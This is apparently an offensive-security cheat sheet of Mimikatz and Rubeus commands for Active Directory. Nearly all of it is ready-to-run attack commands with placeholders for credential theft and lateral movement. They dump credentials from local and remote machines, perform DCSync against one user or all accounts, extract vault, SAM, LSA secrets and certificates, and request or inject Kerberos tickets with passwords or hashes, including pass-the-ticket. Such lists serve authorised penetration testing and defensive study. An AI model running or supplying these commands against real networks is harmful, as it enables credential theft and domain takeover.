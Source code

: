 #### Mimikatz dump credentials on local machine
```
Invoke-Mimikatz -Dumpcreds
```

#### Mimikatz dump credentials on multiple remote machines
```
Invoke-Mimikatz -Dumpcreds -ComputerName @("<COMPUTERNAME 1>","<COMPUTERNAME2>")
```

#### Mimikatz DCSync attack specific user
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<USER> /domain:<DOMAIN>"'
```

#### Mimikatz DCSync attack everything
```
Invoke-Mimikatz -Command '"lsadump::dcsync /all"'
```

#### Mimikatz dump certs
```
Invoke-Mimikatz –DumpCerts
```

#### Mimikatz dump vault
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch" "vault::list"'
```

#### Mimikatz dump all to find privs
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::tickets /export" "kerberos::list /export" "vault::cred /patch" "vault::list" "lsadump::sam" "lsadump::secrets" "lsadump::cache"'
```

## Rubeus
#### Request TGT
- Use `/outfile:` to save to file.
- Use `/nowrap` for easier copying of ticket
- use `/ptt` to inject in current session
```
.\Rubeus.exe asktgt /user:<USER> /password:<PASSWORD> /domain:<DOMAIN> /ptt
.\Rubeus.exe asktgt /user:<USER> /rc4:<HASH> /domain:<DOMAIN> /ptt
```

#### Request TGS
```
.\Rubeus.exe asktgs /user:<USER> /ticket:<BASE64 TGT> /service:<CIFS>/<FQDN> /ptt
.\Rubeus.exe asktgs /user:<USER> /ticket:<TGT FILE KIRBI> /service:<CIFS>/<FQDN> /ptt
```

#### Dump tickets
```
./Rubeus.exe triage
./Rubeus.exe dump /luid:<ID> /service:<SERVICE> /nowrap
```
